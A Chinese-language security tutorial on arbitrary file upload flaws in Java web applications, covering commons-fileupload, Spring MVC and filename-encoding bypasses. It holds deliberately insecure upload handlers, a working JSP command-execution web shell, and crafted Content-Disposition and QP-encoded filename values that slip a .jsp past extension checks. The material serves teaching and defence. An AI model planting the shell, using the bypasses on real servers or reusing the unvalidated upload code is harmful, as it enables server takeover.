# 任意文件上传漏洞

Web应用通常都会包含文件上传功能，用户可以将其本地的文件上传到Web服务器上。如果服务器端没有能够正确的检测用户上传的文件类型是否合法(例如上传了`jsp`后缀的`WebShell`)就将文件写入到服务器中就可能会导致服务器被非法入侵。


## 1. Apache commons-fileupload文件上传测试

`Apache commons-fileupload`是一个非常常用的文件上传解析库，`Spring MVC`、`Struts2`、`Tomcat`等底层处理文件上传请求都是使用的这个库，所以`RASP`必须能够支持使用`Apache commons-fileupload`库解析的文件上传请求。

**示例 - Apache commons-fileupload文件上传：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.commons.fileupload.FileItemIterator" %>
<%@ page import="org.apache.commons.fileupload.FileItemStream" %>
<%@ page import="org.apache.commons.fileupload.servlet.ServletFileUpload" %>
<%@ page import="org.apache.commons.fileupload.util.Streams" %>
<%@ page import="java.io.File" %>
<%@ page import="java.io.FileOutputStream" %>
<%
    if (ServletFileUpload.isMultipartContent(request)) {
        ServletFileUpload fileUpload       = new ServletFileUpload();
        FileItemIterator  fileItemIterator = fileUpload.getItemIterator(request);

        String dir       = request.getServletContext().getRealPath("/uploads/");
        File   uploadDir = new File(dir);

        if (!uploadDir.exists()) {
            uploadDir.mkdir();
        }

        while (fileItemIterator.hasNext()) {
            FileItemStream fileItemStream = fileItemIterator.next();
            String         fieldName      = fileItemStream.getFieldName();// 字段名称

            if (fileItemStream.isFormField()) {
                String fieldValue = Streams.asString(fileItemStream.openStream());// 字段值
                out.println(fieldName + "=" + fieldValue);
            } else {
                String fileName   = fileItemStream.getName();
                File   uploadFile = new File(uploadDir, fileName);
                out.println(fieldName + "=" + fileName);
                FileOutputStream fos = new FileOutputStream(uploadFile);

                // 写文件
                Streams.copy(fileItemStream.openStream(), fos, true);

                out.println("文件上传成功:" + uploadFile.getAbsolutePath());
            }
        }
    } else {
%>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>File upload</title>
</head>
<body>
<form action="" enctype="multipart/form-data" method="post">
    <p>
        用户名: <input name="username" type="text"/>
        文件: <input id="file" name="file" type="file"/>
    </p>
    <input name="submit" type="submit" value="Submit"/>
</form>
</body>
</html>
<%
    }
%>
```

**示例 - 本地命令执行后门代码：**

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

因为Web应用未检测用户上传的文件合法性导致了任意文件上传漏洞，访问：[http://localhost:8000/modules/servlet/fileupload/file-upload.jsp](http://localhost:8000/modules/servlet/fileupload/file-upload.jsp)，并选择一个恶意的jsp后门(示例上传的是一个本地命令执行的后门):


后门成功的写入到了网站目录：


访问命令执行后门测试：[http://localhost:8000/uploads/cmd.jsp?cmd=ls](http://localhost:8000/uploads/cmd.jsp?cmd=ls)，如下图：


## 2. Spring MVC文件上传

Spring MVC会自动解析`multipart/form-data`请求，将`multipart`中的对象封装到`MultipartRequest`对象中，所以在Controller中使用`@RequestParam`注解就可以映射`multipart`中的对象了，如：`@RequestParam("file") MultipartFile file`。

```java
import org.javaweb.utils.FileUtils;
import org.javaweb.utils.HttpServletResponseUtils;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.multipart.MultipartFile;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.File;
import java.io.IOException;
import java.util.LinkedHashMap;
import java.util.Map;

import static org.javaweb.utils.HttpServletRequestUtils.getDocumentRoot;

@Controller
@RequestMapping("/FileUpload/")
public class FileUploadController {

	@RequestMapping("/upload.php")
	public void uploadPage(HttpServletResponse response) {
		HttpServletResponseUtils.responseHTML(response, "<!DOCTYPE html>\n" +
				"<html lang=\"en\">\n" +
				"<head>\n" +
				"    <meta charset=\"UTF-8\">\n" +
				"    <title>File upload</title>\n" +
				"</head>\n" +
				"<body>\n" +
				"<form action=\"/FileUpload/upload.do\" enctype=\"multipart/form-data\" method=\"post\">\n" +
				"    <p>\n" +
				"        用户名: <input name=\"username\" type=\"text\"/>\n" +
				"        文件: <input id=\"file\" name=\"file\" type=\"file\"/>\n" +
				"    </p>\n" +
				"    <input name=\"submit\" type=\"submit\" value=\"Submit\"/>\n" +
				"</form>\n" +
				"</body>\n" +
				"</html>");
	}

	@ResponseBody
	@RequestMapping("/upload.do")
	public Map<String, Object> upload(String username, @RequestParam("file") MultipartFile file, HttpServletRequest request) {
		// 文件名称
		String filePath   = "uploads/" + username + "/" + file.getOriginalFilename();
		File   uploadFile = new File(getDocumentRoot(request), filePath);

		// 上传目录
		File uploadDir = uploadFile.getParentFile();

		// 上传文件对象
		Map<String, Object> jsonMap = new LinkedHashMap<String, Object>();

		if (!uploadDir.exists()) {
			uploadDir.mkdirs();
		}

		try {
			FileUtils.copyInputStreamToFile(file.getInputStream(), uploadFile);

			jsonMap.put("url", filePath);
			jsonMap.put("msg", "上传成功!");
		} catch (IOException e) {
			jsonMap.put("msg", "上传失败，服务器异常!");
		}

		return jsonMap;
	}

}
```

访问示例中的文件上传地址：[http://localhost:8000/FileUpload/upload.do](http://localhost:8000/FileUpload/upload.do)，如下图：



后门成功的写入到了网站目录：



## 3. 文件上传 - QP编码

[QP编码](https://zh.wikipedia.org/wiki/Quoted-printable)（ `quoted-printable`）是邮件协议中的一种内容编码方式，`Quoted-printable`是使用可打印的ASCII字符（如字母、数字与“=”）表示各种编码格式下的字符，以便能在7-bit数据通路上传输8-bit数据, 或者更一般地说在非8-bit clean媒体上正确处理数据，这被定义为MIME [content transfer encoding](https://zh.wikipedia.org/wiki/MIME#Content-Transfer-Encoding)。

**示例 - JavaQP编码代码：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="javax.mail.internet.MimeUtility" %>
<%
    String qp = request.getParameter("qp");
    String encode = MimeUtility.encodeText(qp);
    String decode = MimeUtility.decodeText(encode);

    out.println("<pre>\nQP-Encoding: " + encode + "\nQP-Decode: " + decode);
%>
```

字符串：`测试.jsp`编码后的结果如下：



QP编码本与文件上传没有什么关系，但是由于在Java中最常用的[Apache commons fileupload](http://commons.apache.org/proper/commons-fileupload/)库从1.3开始支持了[RFC 2047](https://www.ietf.org/rfc/rfc2047.txt) Header值编码，从而支持解析使用QP编码后的文件名。

**示例 - 文件上传测试：**



编码处理类：`org.apache.commons.fileupload.util.mime.MimeUtility#decodeText`



文件上传成功后文件名被编码成了`测试.jsp`：



测试发现在Spring MVC中同样有效，Spring中有两种处理`Multipart`的`Resolver`： `org.springframework.web.multipart.commons.CommonsMultipartResolver`和`org.springframework.web.multipart.support.StandardServletMultipartResolver`。`CommonsMultipartResolver`使用的是`commons fileupload`解析的所以支持QP编码。`StandardServletMultipartResolver`比较特殊，Spring 4中使用的`Java EE`的API，没有处理QP编码：



Spring 5修改了实现，如果文件名是`=?`开始`?=`结尾的话会调用`javax.mail`库的`MimeDelegate`解析QP编码：




`javax.mail`库不是JDK自带的，必须自行引包，如果不存在该包也将无法解析，SpringBoot + Spring4默认使用的是`StandardServletMultipartResolver`，但是基于配置的Spring MVC中经常会使用`CommonsMultipartResolver`，如：

```xml
<bean id="multipartResolver" class="org.springframework.web.multipart.commons.CommonsMultipartResolver">
    <property name="defaultEncoding" value="UTF-8"></property>
    <property name="maxUploadSize" value="50000000"></property>
    <property name="maxInMemorySize" value="1024"></property>
</bean>
```

`org.springframework.web.multipart.support.StandardMultipartHttpServletRequest#parseRequest`内置了一种比较特殊的解析文件名的方式，如果传入的`multipart`请求无法直接使用`filename=`解析出文件名，Spring还会使用`content-disposition`解析一次（使用`filename*=`解析文件名）。

在文件上传时，修改`Content-Disposition`中的`filename=`为`filename*="UTF-8'1.jpg'1.jsp"`：



Spring4的`org.springframework.web.multipart.support.StandardMultipartHttpServletRequest#parseRequest`解析逻辑：



Spring4的`org.springframework.web.multipart.support.StandardMultipartHttpServletRequest#extractFilenameWithCharset`代码如下：



`extractFilenameWithCharset`支持对传入的文件名编码，示例中传入的`UTF-8'1.jpg'1.jsp`会被解析成`UTF-8`编码，最终的文件名为`1.jsp`，而`1.jpg`则会被丢弃。

Spring5的`org.springframework.web.multipart.support.StandardMultipartHttpServletRequest#parseRequest`除了支持QP编码以外，优化了Spring4的解析文件名的方式：



`org.springframework.http.ContentDisposition#parse`代码：



文件上传成功：

